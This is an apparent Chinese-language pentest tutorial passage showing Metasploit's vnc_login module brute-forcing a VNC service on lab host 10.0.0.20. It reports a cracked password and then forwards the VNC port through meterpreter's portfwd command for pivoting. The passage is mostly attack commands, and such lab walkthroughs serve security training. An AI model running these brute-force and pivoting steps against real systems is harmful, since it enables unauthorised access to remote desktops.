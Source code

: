 **爆破VNC：**

```javascript
msf auxiliary(tcp) > use auxiliary/scanner/vnc/vnc_login 

msf auxiliary(vnc_login) > set rhosts 10.0.0.20
rhosts => 10.0.0.20

msf auxiliary(vnc_login) > set RPORT 5901
RPORT => 5901

msf auxiliary(vnc_login) > set PASS_FILE /root/Desktop/pass.txt
PASS_FILE => /root/Desktop/pass.txt
msf auxiliary(vnc_login) > run
```

![](/img/hack/vnc/1508138135594.png)

爆破出密码为`213213`，**端口转发：**


```javascript
meterpreter > portfwd add -l 6000 -p 5901 -r 10.0.0.20
```

> -l :本地监听端口
>  
> -p :要连接的远程端口
>  
>  -r：要连接的远程主机地址

![](/img/hack/vnc/1508138469954.png)





refer：
- https://websistent.com/how-to-use-putty-to-create-a-ssh-tunnel/
- http://www.hackingarticles.in/vnc-tunneling-ssh/
- http://www.hackingarticles.in/vnc-pivoting-meterpreter/



